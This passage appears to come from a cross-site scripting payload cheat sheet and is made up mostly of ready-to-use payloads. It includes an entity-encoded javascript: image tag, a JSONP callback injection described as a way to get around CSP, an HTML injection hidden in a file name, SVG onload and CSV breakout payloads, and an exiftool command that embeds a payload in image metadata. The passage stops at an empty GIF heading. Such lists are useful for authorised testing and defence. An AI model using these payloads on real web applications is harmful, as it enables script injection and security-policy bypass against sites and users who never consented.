 ```
<IMG SRC=&#x6A&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x70&#x74&#x3A&#x61&#x6C&#x65&#x72&#x74&#x28&#x27&#x58&#x53&#x53&#x27&#x29>
```

### JSONP Payloads

-   JSONP callbacks can be weaponised in certain circumstances to get XSS
-   JSONP based XSS vectors also have a high chance of negating CSP protections making them an exceptionally useful vulnerability
-   _Note: the following payloads are designed to be injected into any part of a web application which uses a JSONP endpoint, they can also be injected into the callback of a legitimate JSONP query_
    -   For example: `domain.com/page?query=PAYLOAD`

#### Basic JSONP Payloads

```js
<script src='https://current.domain.com/jsonp_endpoint.jsonp?callback=alert(1);'></script>
```

### Image/File Upload Based Payloads

#### File Name Injection

-   Upload a file like

```javascript
""><img src=x onerror=alert(1)>.gif
```

#### SVG

```javascript
<?xml version="1.0" standalone="no"?>
<svg width="1056" height="816" xmlns="http://www.w3.org/2000/svg" onload="alert(1)" id="svgvm7">
<g transform="translate(5,5)" style="font-family: sans-serif;"><g><g transform="translate(0, 0)">
```

#### CSV

```javascript
</Textarea/</Noscript/</Pre/</Xmp><Svg /Onload=confirm(document.domain)>”
```

#### File Metadata

_These can be embeded with exiftool and hence an example command for doing so is included._

```javascript
“><img src=1 onerror=alert(alert(1))>’ payload_file.jpeg
```

**Usage**

`exiftool -Artist='PAYLOAD'`

#### GIF
